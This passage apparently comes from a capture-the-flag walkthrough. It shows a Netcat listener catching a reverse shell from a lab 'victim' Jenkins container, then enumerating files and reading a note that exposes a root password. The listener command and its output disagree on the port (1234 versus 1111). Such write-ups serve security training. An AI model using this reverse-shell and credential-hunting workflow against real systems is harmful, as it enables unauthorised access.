 ![1673107392540](image/READMI/1673107392540.png)

The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags:

* -l to listen for incoming connections
* -v for verbose output
* -n to skip the DNS lookup
* -p to specify the port to listen on

***CMD:***

```bash
$nc -lnvp 1234                                                                                                  
listening on [any] 1111 ...
connect to [10.9.35.72] from (UNKNOWN) [10.10.64.173] 54690
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
ls -la
total 84
drwxr-xr-x   1 root root 4096 Aug  3  2020 .
drwxr-xr-x   1 root root 4096 Aug  3  2020 ..
-rwxr-xr-x   1 root root    0 Aug  3  2020 .dockerenv
drwxr-xr-x   1 root root 4096 Aug  3  2020 bin
drwxr-xr-x   2 root root 4096 Sep  8  2019 boot
drwxr-xr-x   5 root root  340 Jan  7 12:02 dev
drwxr-xr-x   1 root root 4096 Aug  3  2020 etc
drwxr-xr-x   2 root root 4096 Sep  8  2019 home
drwxr-xr-x   1 root root 4096 Jan 30  2020 lib
drwxr-xr-x   2 root root 4096 Jan 30  2020 lib64
drwxr-xr-x   2 root root 4096 Jan 30  2020 media
drwxr-xr-x   2 root root 4096 Jan 30  2020 mnt
drwxr-xr-x   1 root root 4096 Aug  3  2020 opt
dr-xr-xr-x 119 root root    0 Jan  7 12:02 proc
drwx------   1 root root 4096 Aug  3  2020 root
drwxr-xr-x   3 root root 4096 Jan 30  2020 run
drwxr-xr-x   1 root root 4096 Jul 28  2020 sbin
drwxr-xr-x   2 root root 4096 Jan 30  2020 srv
dr-xr-xr-x  13 root root    0 Jan  7 12:02 sys
drwxrwxrwt   1 root root 4096 Jan  7 12:02 tmp
drwxr-xr-x   1 root root 4096 Jan 30  2020 usr
drwxr-xr-x   1 root root 4096 Jul 28  2020 var
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

